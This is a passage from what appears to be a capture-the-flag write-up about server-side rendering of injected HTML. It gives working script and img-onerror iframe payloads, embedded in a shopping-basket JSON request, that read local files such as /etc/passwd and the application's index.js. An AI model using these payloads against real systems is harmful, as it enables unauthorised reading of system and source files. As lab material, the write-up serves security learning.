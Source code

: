 Still kind of the same issue. There are a couple that use attachments,
but I couldn't get them to work.

The fix here is either to set the `iframe` size, or use a request and
don't base64 the data so that it will line wrap. I'll go with the
latter.

I'll remove the `boa` from the previous payload:



    <script>
    x=new XMLHttpRequest;
    x.onload=function(){document.write(this.responseText)};
    x.open("GET","file:///etc/passwd");x.send();
    </script>



After escaping the `"` and removing newlines, I get:



    <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open(\"GET\",\"file:///etc/passwd\");x.send();</script>



This returns something much better:

![](/img/image-20230612122135804.png)

That's nice, but there's no newlines. Another technique that works
nicely is to write an `iframe` into the page using the `img` tag I used
at the start to test writing. I like this better than just inserting an
`iframe` as it gets more space:



    <img src=\"x\" onerror=\"document.write('<iframe src=file:///etc/passwd width=100% height=100%></iframe>')\" />



![](/img/image-20230612124240314.png)

#### Source Analysis

I'll fetch the source using the same technique. I know it's running from
`/var/www/dev`. The main file is likely `index.js`, so I'll start there:



    {"basket":[{"_id":"638f116eeb060210cbd83a91","title":"<img src=\"x\" onerror=\"document.write('<iframe src=file:///var/www/dev/index.js width=100% height=100%></iframe>')\" />","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1}]}



![](/img/image-20230612124408279.png)

This code does go more than a page, so I would have to switch back to
the "just print the text without newlines" version if I want the full
thing. Fortunately, for me, this is all I need.
